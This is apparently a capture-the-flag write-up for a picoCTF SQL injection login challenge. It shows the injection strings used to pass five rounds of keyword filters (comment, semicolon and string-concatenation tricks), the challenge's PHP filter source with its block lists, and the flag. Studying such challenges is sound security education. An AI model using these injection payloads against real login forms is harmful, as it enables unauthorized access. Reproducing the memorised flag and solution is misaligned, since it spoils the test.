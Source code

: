 # Description

![0](https://user-images.githubusercontent.com/125740625/219954067-774e0000-2e13-4b84-ba8c-808a05e561b4.png)

# Solution

Opening the links, I saw ..

![1](https://user-images.githubusercontent.com/125740625/219954162-a71c51c9-091c-46cb-b569-762f551ea0cc.png)        ![2](https://user-images.githubusercontent.com/125740625/219954172-74e868ba-f667-467c-92fe-b9e31235b52b.png)

I tried using credentials 'admin' and 'pass'

![4](https://user-images.githubusercontent.com/125740625/219954497-ae62601c-8e4f-44cf-a4a3-2133bd3278ea.png)

We get following error. So, there must be some script that is checking if username is 'admin' AND some password. We know by the hints this challenge has something to with SQL so I tried putting username 
```
admin' /* 
```
to comment the rest and random password.

![2](https://user-images.githubusercontent.com/125740625/219954675-cfb26ede-559b-430a-a68e-2e88de3243bd.png)

We are in Round 2/5 now, I tried repeating the same username ...

We are in Round 3/5 now, I tried repeating the same username... still on Round 3.

filler.php shows
```
Round3: or and = like > < --
```

I tried to search around on web and saw that we can use semi colon to end statement in code and thereby bypassing password. So I tried username:
```
admin';
```
We are in Round 4/5 now, I tried repeating the same username ... Nope.

filler.php shows
```
Round4: or and = like > < -- admin
```
We aren't allowed to use word admin. Only way we not type admin and still send back admin can be by sending it in parts...and then concatenating..

![5](https://user-images.githubusercontent.com/125740625/219955284-52447a1b-be79-4606-9b18-d218b6d0c9d7.png)

So I input username 
```
a'||'dmin';
```
with random password.

We are in Round 5/5 now, I tried repeating the same username ...filler.php shows
```
Round5: or and = like > < -- union admin
```
We are in Round 6/5 now, filler.php shows
```
 <?php
session_start();

if (!isset($_SESSION["round"])) {
    $_SESSION["round"] = 1;
}
$round = $_SESSION["round"];
$filter = array("");
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($round === 1) {
    $filter = array("or");
    if ($view) {
        echo "Round1: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 2) {
    $filter = array("or", "and", "like", "=", "--");
    if ($view) {
        echo "Round2: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 3) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--");
    // $filter = array("or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round3: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 4) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
    // $filter = array(" ", "/**/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round4: ".implode(" ", $filter)."<br/>";
    }
} else if ($round === 5) {
    $filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");
    // $filter = array("0", "unhex", "char", "/*", "*/", "--", "or", "and", "=", "like", "union", "select", "insert", "delete", "if", "else", "true", "false", "admin");
    if ($view) {
        echo "Round5: ".implode(" ", $filter)."<br/>";
    }
} else if ($round >= 6) {
    if ($view) {
        highlight_file("filter.php");
    }
} else {
    $_SESSION["round"] = 1;
}

// picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}
?> 
```
Required flag: picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}


